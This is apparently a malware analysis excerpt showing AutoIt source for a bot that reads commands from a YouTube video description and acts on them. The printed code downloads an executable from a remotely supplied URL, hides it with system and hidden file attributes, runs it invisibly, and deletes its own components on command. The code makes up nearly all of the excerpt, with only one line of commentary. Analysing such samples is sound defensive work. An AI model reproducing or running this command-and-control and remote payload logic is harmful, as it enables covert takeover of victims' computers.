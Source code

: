 ```au3
            FileClose($rdread)
        EndIf
    ElseIf StringRegExp($out, "_delete", 0) = 1 Then
        FileChangeDir(@ScriptDir)
        FileSetAttrib(@ScriptDir & "\rdel.exe", "-RSH")
        FileDelete(@ScriptDir & "\rdel.exe")
        FileSetAttrib(@ScriptDir & "\up1date.exe", "-RSH")
        FileDelete(@ScriptDir & "\up1date.exe")
        FileSetAttrib(@ScriptDir & "\run.exe", "-RSH")
        FileDelete(@ScriptDir & "\run.exe")
        FileSetAttrib(@ScriptDir & "\2mdw4.temp", "-RSH")
        FileDelete(@ScriptDir & "\2mdw4.temp")
        FileSetAttrib(@ScriptDir & "\system.ini", "-RSH")
        FileDelete(@ScriptDir & "\system.ini")
        FileWrite(@ScriptDir & "\system.ini", "")
        FileSetAttrib(@ScriptDir & "\system.ini", "+SH")
    ElseIf StringRegExp($out, "_update", 0) = 1 Then
        If StringRegExp($out, 'href="(.*?).exe"', 0) = 1 Then
            $update = StringRegExp($out, 'href="(.*?)"', 1)
            $urlupdate = $update[0]
            FileChangeDir(@ScriptDir)
            $uread = FileRead(@ScriptDir & "\system.ini")
            If StringRegExp($uread, $urlupdate, 0) = 0 Then
                FileChangeDir(@ScriptDir)
                FileSetAttrib(@ScriptDir & "\svchost.exe", "-RSH")
                $udownload = InetGet($urlupdate, @ScriptDir & "\up1date.exe", 1, 1)
                Do
                    Sleep(1000)
                Until InetGetInfo($udownload, 2)
                InetClose($udownload)
                Sleep(1000 * 5)
                FileChangeDir(@ScriptDir)
                FileSetAttrib(@ScriptDir & "\up1date.exe", "+SH")
                Sleep(1000 * 2)
                $ufile = FileOpen(@ScriptDir & "\system.ini", 1)
                FileWrite(@ScriptDir & "\system.ini", $urlupdate & @CRLF)
                FileClose($ufile)
                FileSetAttrib(@ScriptDir & "\system.ini", "+SH")
                Run(@ScriptDir & "\up1date.exe", "", @SW_HIDE)
                Exit
            EndIf
            FileClose($uread)
        EndIf
    EndIf
EndFunc
```

The interesting part is the `bot()` function:

```au3
$ohttp = ObjCreate("WinHttp.WinHttpRequest.5.1")
    $ohttp.open("GET", $botcheck) ; botcheck="https://www.youtube.com/watch?v=RmCcqoC-Oms"
    $ohttp.send("") #
    $ohttp.waitforresponse
    $shtml = $ohttp.responsetext
    $aecu = StringRegExp($shtml, 'id="eow-description" class="" >(.*?)</p>', 1)
    $out = $aecu[0]
    If StringRegExp($out, "_download", 0) = 1 Then
        ; download logic
    ElseIf StringRegExp($out, "_run", 0) = 1 Then
        ; run logic
    ElseIf StringRegExp($out, "_rdel", 0) = 1 Then
        ; rdel logic
    ElseIf StringRegExp($out, "_delete", 0) = 1 Then
```